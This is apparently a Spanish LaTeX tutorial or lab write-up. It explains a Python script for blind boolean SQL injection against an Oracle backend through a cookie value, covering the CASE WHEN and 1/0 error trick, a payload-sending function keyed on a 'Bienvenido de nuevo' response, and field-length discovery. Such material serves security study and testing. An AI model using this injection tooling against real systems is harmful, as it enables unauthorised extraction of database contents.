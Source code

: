 \documentclass[a4paper,12pt]{article}
\begin{document}
El uso de \texttt{CASE WHEN} permite determinar si la condición es verdadera o falsa. Si es verdadera, se devuelve \texttt{1}; si es falsa, se genera un error controlado con \texttt{1/0}.

\subsubsection{Envío de la inyección y análisis de la respuesta}

El script envía cada payload generado al servidor mediante una petición POST. Analiza la respuesta para determinar si la inyección fue exitosa basándose en cambios observables en la interfaz.

\begin{lstlisting}[language=Python]
def enviar_inyeccion(payload):
    """
    Envía la inyección al servidor y devuelve True si se detecta un cambio en la web, False en caso contrario.
    """
    data = {
        "tipo_sqli": "blind_boolean",
        "database": "Oracle",
        "cookie_value": payload
    }
    response = requests.post(SERVER_URL, json=data, timeout=5)
    success_keywords = ["Bienvenido de nuevo"]
    for keyword in success_keywords:
        if keyword.lower() in response.text.lower():
            return True
    return False
\end{lstlisting}

\textbf{Descripción de la función:}
\begin{itemize}
    \item \texttt{payload}: La inyección SQL a enviar.
    \item \texttt{SERVER\_URL}: La URL del servidor configurada para recibir las peticiones.
    \item \texttt{success\_keywords}: Lista de palabras clave que indican un cambio visible en la respuesta (por ejemplo, el mensaje "Bienvenido de nuevo").
\end{itemize}

El script interpreta que la inyección fue exitosa si detecta alguno de los cambios definidos por \texttt{success\_keywords}.

\subsubsection{Determinación de la longitud de un campo}

Antes de extraer el valor completo de un campo, el script determina su longitud, iterando sobre posibles valores hasta encontrar una coincidencia.
\end{document}
